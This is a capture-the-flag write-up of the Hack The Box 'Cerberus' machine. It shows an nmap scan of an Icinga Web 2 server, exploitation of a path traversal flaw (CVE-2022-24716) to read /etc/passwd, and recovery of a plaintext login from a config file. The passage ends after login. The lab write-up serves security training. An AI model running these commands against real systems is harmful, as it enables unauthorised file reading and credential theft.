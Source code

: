 <h2>Recon</h2>

<h3>PortScanning</h3>

command:```sudo nmap -A 10.10.11.205  -T4  -v -p-```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-25 12:12 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 12:12
Completed Parallel DNS resolution of 1 host. at 12:12, 0.02s elapsed
Initiating SYN Stealth Scan at 12:12
Scanning 10.10.11.205 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.205
SYN Stealth Scan Timing: About 3.26% done; ETC: 12:28 (0:15:19 remaining)
SYN Stealth Scan Timing: About 10.70% done; ETC: 12:22 (0:08:29 remaining)
SYN Stealth Scan Timing: About 23.27% done; ETC: 12:19 (0:05:00 remaining)
SYN Stealth Scan Timing: About 38.98% done; ETC: 12:18 (0:03:09 remaining)
SYN Stealth Scan Timing: About 53.43% done; ETC: 12:17 (0:02:12 remaining)
SYN Stealth Scan Timing: About 66.97% done; ETC: 12:17 (0:01:29 remaining)
SYN Stealth Scan Timing: About 77.94% done; ETC: 12:18 (0:01:12 remaining)
Completed SYN Stealth Scan at 12:17, 297.65s elapsed (65535 total ports)
Initiating Service scan at 12:17
Scanning 1 service on 10.10.11.205
Completed Service scan at 12:18, 6.42s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.11.205
Retrying OS detection (try #2) against 10.10.11.205
Initiating Traceroute at 12:18
Completed Traceroute at 12:18, 0.23s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:18
Completed Parallel DNS resolution of 2 hosts. at 12:18, 0.03s elapsed
NSE: Script scanning 10.10.11.205.
Initiating NSE at 12:18
Completed NSE at 12:18, 5.19s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.77s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for 10.10.11.205
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|5.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 - 5.6 (85%), Linux 5.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 7.418 days (since Sat Mar 18 02:16:12 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.97 ms 10.10.14.1
2   215.10 ms 10.10.11.205

NSE: Script Post-scanning.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 315.73 seconds
           Raw packets sent: 131344 (5.783MB) | Rcvd: 2048 (459.283KB)
```
From the above scan we have only one port open and that is port 8080 which runs http. So, our enumeration will be focused on this port.


<h2>Enumeration</h2>

Navigating to the webpage you get this

![image](https://user-images.githubusercontent.com/67879936/227715205-7f053439-d3a7-485c-93cd-06c715d7ada9.png)

so we'll be adding ```cinga.cerberus.local``` to our ```/etc/hosts``` file.

![image](https://user-images.githubusercontent.com/67879936/227715292-ca2816d4-9f74-407d-b32f-b0cd41c4bda5.png)

cool, now lets refresh that webpage

![image](https://user-images.githubusercontent.com/67879936/227715321-5aef8a5d-0a36-47e8-a52b-96542646737c.png)

we get this login page. Lets go look for exploits

![image](https://user-images.githubusercontent.com/67879936/227716739-37258491-9206-4d74-926c-e8fb78280884.png)

We found one, ```path transversal vulnerability```. Lets go ahead and exploit this



<h2>Exploitation</h2>
Download [this](https://github.com/JacobEbben/CVE-2022-24716) to your machine

![image](https://user-images.githubusercontent.com/67879936/227716867-c31f29b1-6b1a-467b-8a21-c089d3d916dd.png)

those parameters are needed to make this exploit work

Lets try reading the ```/etc/passwd``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/cerberus/CVE-2022-24716]
└─$ python exploit.py  http://icinga.cerberus.local:8080/icingaweb2/ /etc/passwd
/home/bl4ck4non/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.8) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
cool, we can view the ```/etc/passwd``` file. Lets go ahead to look for credentials we can use for the login page we found earlier. I found one in the ```/etc/icingaweb2/resources.ini``` dirrectory

![image](https://user-images.githubusercontent.com/67879936/227718564-9db860da-405d-4d8e-bc52-696356bf6898.png)

so with this we can now log in

```username:matthew```                     ```password:IcingaWebPassword2023```

![image](https://user-images.githubusercontent.com/67879936/227718630-3ce4fb45-3bb0-4c51-b1b3-b4131bbdd8ff.png)
![image](https://user-images.githubusercontent.com/67879936/227718639-bf7737b4-b221-4e0b-b7ec-8721d09ba5d8.png)

cool, we are logged in.
































